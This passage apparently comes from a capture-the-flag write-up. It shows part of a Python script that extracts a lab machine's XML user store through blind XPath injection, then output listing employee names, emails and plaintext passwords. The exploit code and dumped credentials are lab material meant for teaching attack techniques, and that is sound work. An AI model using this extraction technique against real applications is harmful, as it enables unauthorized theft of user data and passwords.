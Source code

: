         # Count children
        i = 0
        while True:
            if xpath_req(f"count({node}/*)={i}"):
                #print(f'[+] {node} has {i} children')
                break
            i += 1
        num_children = i
    
    
        for i in range(1, num_children+1):
            get_node(f'{node}/*[position()={i}]', depth+1)
    
        if num_children == 0:
            #/Employees/Employee[position()=1]/Username='rita'
            #string-length(/Employees/*[position()=1]/Username)=3
            text = get_text(f'{node}', alpha=string.printable)
            #print(text, end='', flush=True)
        else:
            print(f'\n{" "*depth*2}', end='', flush=True)
    
        print(f'</{node_name}>', end='', flush=True)
    
    get_node('/*[position()=1]')
    print()
    

It takes a while to run, but dumps everything:

    
    
    root@kali# time ./dump_xml.py 
    
    <Employees>
      <Employee>
        <Username>rita</Username>
        <FirstName>Rita</FirstName>
        <LastName>Fubelli</LastName>
        <Email>rita@unbalanced.htb</Email>
        <Role>HR Manager</Role>
        <Password>password01!</Password>
      </Employee>
      <Employee>
        <Username>jim</Username>
        <FirstName>Jim</FirstName>
        <LastName>Mickelson</LastName>
        <Email>jim@unbalanced.htb</Email>
        <Role>Web Designer</Role>
        <Password>stairwaytoheaven</Password>
      </Employee>
      <Employee>
        <Username>bryan</Username>
        <FirstName>Bryan</FirstName>
        <LastName>Angstrom</LastName>
        <Email>bryan@unbalanced.htb</Email>
        <Role>System Administrator</Role>
        <Password>ireallyl0vebubblegum!!!</Password>
      </Employee>
      <Employee>
        <Username>sarah</Username>
        <FirstName>Sarah</FirstName>
        <LastName>Goodman</LastName>
        <Email>sarah@unbalanced.htb</Email>
        <Role>Team Leader</Role>
        <Password>sarah4evah</Password>
      </Employee>
    </Employees>